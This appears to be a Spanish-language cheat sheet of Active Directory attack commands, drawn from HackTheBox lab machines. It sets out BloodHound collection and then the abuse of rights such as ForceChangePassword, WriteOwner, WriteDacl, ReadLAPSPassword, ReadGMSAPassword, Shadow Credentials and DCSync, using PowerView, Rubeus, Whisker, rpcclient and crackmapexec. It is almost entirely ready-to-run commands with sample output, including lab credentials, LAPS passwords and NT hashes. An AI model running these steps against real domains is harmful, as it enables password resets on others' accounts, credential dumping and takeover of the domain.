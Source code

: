 # BloodHound

### Uso de BloodHound-python
```null
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c All
```

### Inicialización Neo4j
```null
sudo neo4j console
bloodhound &>/dev/null & disown
```

### SharpHound Inyector
```null
PS C:\Temp> .\SharpHound.exe -c All
```

## Abuso de ForceChangePassword

### Modificación de contraseña por RPC
```null
rpcclient -U blackfield/support 10.10.10.192
rpcclient $> setuserinfo audit2020 23 H@CKTHEB0X#
```

## Abuso AddKeyCredentialLink 

### Uso de Invoke-Whisker (Obtención Hash NT)

```null
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"
```

```null
.\Rubeus.exe asktgt /user:sflowers /certificate:<CERTIFICATE>
```

## Abuso ReadLAPSPassword

```null
*Evil-WinRM* PS C:\Temp> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Temp> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Temp> $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
*Evil-WinRM* PS C:\Temp> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity 'JDgodd'
*Evil-WinRM* PS C:\Temp> Add-DomainGroupMember -Identity 'Core Staff' -Members 'JDgodd' -Credential $Cred
```

### Extraer credenciales de Administradores locales con LDAP

```null
ldapsearch -H ldap://10.10.11.158 -b 'DC=streamIO,DC=htb' -x -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=streamIO,DC=htb> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# DC, Domain Controllers, streamIO.htb
dn: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: 4)(6&h9+7]QY+o

# search reference
ref: ldap://ForestDnsZones.streamIO.htb/DC=ForestDnsZones,DC=streamIO,DC=htb

# search reference
ref: ldap://DomainDnsZones.streamIO.htb/DC=DomainDnsZones,DC=streamIO,DC=htb

# search reference
ref: ldap://streamIO.htb/CN=Configuration,DC=streamIO,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

## Abuso WriteOwner

### Crear objeto y modificar las ACLs

```null
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -Rights ResetPassword -PrincipalIdentity tom
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $SecPassword = ConvertTo-SecureString 'pwned123$!' -AsPlainText -Force             
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire -AccountPassword $SecPassword 
```

## Abuso WriteDacl

### Agregar usuario a un grupo

```null
net group Backup_Admins claire /add
```


## Abuso ReadGMSAPassword

### Desde binario externo

```null
PS C:\Temp> .\GMSAPasswordReader.exe --accountname bir-adfs-gmsa --domainname search.htb
Calculating hashes for Current Value
[*] Input username             : BIR-ADFS-GMSA$
[*] Input domain               : SEARCH.HTB
[*] Salt                       : SEARCH.HTBBIR-ADFS-GMSA$
[*]       rc4_hmac             : E1E9FD9E46D0D747E1595167EEDCEC0F
[*]       aes128_cts_hmac_sha1 : BBCD2446765F390C680CDA31A9FC1783
[*]       aes256_cts_hmac_sha1 : ECAED51920F8677C5846154F69267FE4875543727C7032690016F7947A8A6F94
[*]       des_cbc_md5          : 3843029E088FB983
```

### Con Powershell

```null
PS C:\Temp> $gmsa = Get-ADServiceAccount -Identity 'bir-adfs-gmsa' -Properties 'msDS-ManagedPassword'
PS C:\Temp> $mp = $gmsa.'msDS-ManagedPassword'
PS C:\Temp> $pass = ConvertFrom-ADManagedPasswordBlob $mp
PS C:\Temp> ConvertTo-NTHash -Password $pass.SecureCurrentPassword 
e1e9fd9e46d0d747e1595167eedcec0f 
PS C:\Temp> ConvertFrom-ADManagedPasswordBlob $mp
```

```null
PS C:\Temp> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
PS C:\Temp> $cred = New-Object System.Management.Automation.PSCredential('search.htb\bir-adfs-gmsa',$SecPass)
PS C:\Temp> Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami }
search\bir-adfs-gmsa$ 
```

## Abuso de GenericWrite

### Conversión a un usuario en Kerberoasteable

```null
*Evil-WinRM* PS C:\Users\sbauer\Documents> Get-AdUser jorden | Set-ADAccountControl  -doesnotrequirepreauth $true
```

## Abuso de DCSync

### Dumpear NTDS

```null
crackmapexec smb 10.10.10.103 -u 'mrlky' -p 'Football#7' --ntds
```

## Abuso de AddKeyCredentialLink

### Añadir Principal para crear unas Shadow Credentials

```null
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"
```

Se ejecutará el Rubeus para obtener un hash NTLM y hacer PassTheHash

